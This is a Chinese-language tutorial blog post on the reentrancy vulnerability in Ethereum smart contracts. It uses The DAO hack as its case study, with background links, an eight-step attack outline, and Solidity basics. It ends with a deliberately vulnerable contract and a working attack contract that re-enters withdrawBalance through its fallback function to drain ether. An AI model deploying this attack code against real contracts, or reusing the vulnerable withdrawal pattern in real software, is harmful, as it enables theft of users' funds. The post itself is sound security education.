 # #DASP# Reentrancy (1)


## 0x00 Info

从本篇开始学习智能合约漏洞，依据[DASP TOP10](https://www.dasp.co)。

<!-- more -->

## 0x01 DAO

**History**:  
* [The History of the DAO](https://blog.slock.it/the-history-of-the-dao-and-lessons-learned-d06740f8cfa5)

**WhitePaper**:  
* [WhitePaper](https://download.slock.it/public/DAO/WhitePaper.pdf)
* [白皮书](https://ethfans.org/posts/the-dao-whitepaper)

**OpenSource**:  
* [Github](https://github.com/slockit/dao)
* [etherscan](https://etherscan.io/address/0xbb9bc244d798123fde783fcc1c72d3bb8c189413#code)

### 概念理解

众筹合约，通过资金ETH换取DAO token，从而获得投票和发起议案的权利，按一定规则回馈给投资人投资项目的收益。
因此，The DAO特点：
* 本质是个VC，通过以太坊筹集的资金（ETH）锁定在智能合约中，通过**代码**主导！
* 出资ETH获取对应DAO代币，具有审查项目、投票表决和提出投资项目议案的权利
* 投资议案由全体代币持有人投票表决，一币一票，票数通过，投资项目可获得相应投资额。利用“众智”+出资额权重决定投资策略（取代传统行业投资经理）。
* 投资项目的收益按规则回馈股东。

### The DAO is attacked

[the-dao-the-hack-the-soft-fork-and-the-hard-fork](https://www.cryptocompare.com/coins/guides/the-dao-the-hack-the-soft-fork-and-the-hard-fork/)

{{< mermaid >}}
graph LR;
    A[antipattern withdrew] -->|3.5M ETH lose| B(soft fork)
    B --> |DoS vul| C(hard fork)
{{< /mermaid >}}

[security-alert-dos-vulnerability-in-the-soft-fork](https://blog.ethereum.org/2016/06/28/security-alert-dos-vulnerability-in-the-soft-fork/)

## 0x02 Reentrancy

### solidity基础知识

**合约调用**

1. message call
```solidity
bytes4 funcIdentifier = bytes4(keccak256("FuncName(paramType)"));
this.call(funcIdentifier, paramValue);
```

2. contract object
```solidity
Contract1 c = Contract1(AddressOfContract1);  
c.foo();
```

**限制**

  * 例如send花费2300gas
  * 递归调用栈最大1024层

**转币**

```solidity
1. <address>.transfer()    //失败抛出throw且回滚，2300gas
2. <address>.send()    //失败返回false，2300gas
3. <address>.gas().call.vale()()    //失败返回false，所有gas
```

**fallback**

[Solidity的fallback函数](http://me.tryblockchain.org/blockchain-solidity-fallback.html)

```solidity
contract SimpleFallback{
  function(){
    //fallback function
  }
}
```

两种情况会调用fallback：
1. 调用函数找不到时
2. 向合约发送ether时


### reentrancy & The DAO

DASP TOP10中reentrancy的描述：[dasp](https://www.dasp.co/#item-1)

reentrancy原型为[Race-To-Empty](https://vessenes.com/more-ethereum-attacks-race-to-empty-is-the-real-deal/)，其中就已经介绍了**重置资产**放在**转币**操作后的漏洞。

其中最典型的攻击案例为The DAO。对于The DAO的漏洞分析及利用exp & demo网上一大堆，这里就不ctrlcv了。
> 建议结合源码一起看，并使用本地（truffle+testrpc or geth testnet）或者在线的remix编译环境上手实践。

可以首先看看中文分析：
* [区块链安全 - DAO攻击事件解析](https://paper.seebug.org/544/)
* [以太坊智能合约安全入门](https://paper.seebug.org/601/)

推荐Phil Daian分析：
* [Analysis of the DAO exploit](http://hackingdistributed.com/2016/06/18/analysis-of-the-dao-exploit/)

{{< admonition quote >}}
attack steps:
  1. Propose a split and wait until the voting period expires. (DAO.sol, createProposal)
  2. Execute the split. (DAO.sol, splitDAO)
  3. Let the DAO send your new DAO its share of tokens. (splitDAO -> TokenCreation.sol, createTokenProxy)
  4. Make sure the DAO tries to send you a reward before it updates your balance but after doing (3). (splitDAO -> withdrawRewardFor -> ManagedAccount.sol, payOut)
  5. While the DAO is doing (4), have it run splitDAO again with the same parameters as in (2) (payOut -> _recipient.call.value -> _recipient())
  6. The DAO will now send you more child tokens, and go to withdraw your reward before updating your balance. (DAO.sol, splitDAO)
  7. Back to (5)!
  8. Let the DAO update your balance. Because (7) goes back to (5), it never actually will :-).
{{< /admonition >}}

其中最关键的就是第4步，splitDAO -> withdrawRewardFor -> payOut，其中payOut使用_recipient.call.value(_amount)()转币，而splitDAO函数中资产重置是放在withdrawRewardFor函数后，造成漏洞。

demo & exp：
* [SimpleDAO attack](http://blockchain.unica.it/projects/ethereum-survey/attacks.html#simpledao)
* [reentrancy exp](https://github.com/trailofbits/not-so-smart-contracts/tree/master/reentrancy)

其他合约中的reentrancy漏洞：[CityMayor](https://blog.citymayor.co/posts/how-someone-tried-to-exploit-a-flaw-in-our-smart-contract-and-steal-all-of-its-ether/)

{{< admonition note >}}
特别注意此篇中的分析思路及工具[porosity](https://github.com/comaeio/porosity)/[etherscan](https://etherscan.io/)
{{< /admonition >}}

---

**漏洞合约：**
```solidity
contract vulnerable_DAO{
    mapping(address=>uint) userBalances;
    
    function vulnerable_DAO() payable {
    }
    
    function getUserBalance(address user) constant returns(uint) {
        return userBalances[user];
    }
    
    function addToBalance() payable {
        userBalances[msg.sender] += msg.value;
    }
    
    function withdrawBalance() {
        uint amountToWithdraw = userBalances[msg.sender];
        if(msg.sender.call.value(amountToWithdraw)() ==false) {
            throw;
        }
        userBalances[msg.sender] = 0;
    }
    
    function getBalance() returns(uint) {
        return this.balance;
    }
}
```

**攻击利用合约：**
```solidity
contract Attack {
    address vulnerable_contract;
    uint attackCount;
    address public owner;
    
    function Attack() public{
        attackCount = 2;
        owner = msg.sender;
    }
    
    function() payable{
        while(attackCount>0) {
            attackCount--;
            require(vulnerable_contract.call(bytes4(keccak256("withdrawBalance()"))));
        }
    }
    
    function deposit(address _vulnerable_contract) public payable{
        vulnerable_contract = _vulnerable_contract;
        require(vulnerable_contract.call.value(msg.value)(bytes4(keccak256("addToBalance()"))));
    }
    
    function withdraw(){
        require(vulnerable_contract.call(bytes4(keccak256("withdrawBalance()"))));
    }
    
    function getBalance() returns(uint) {
        return this.balance;
    }
}
```
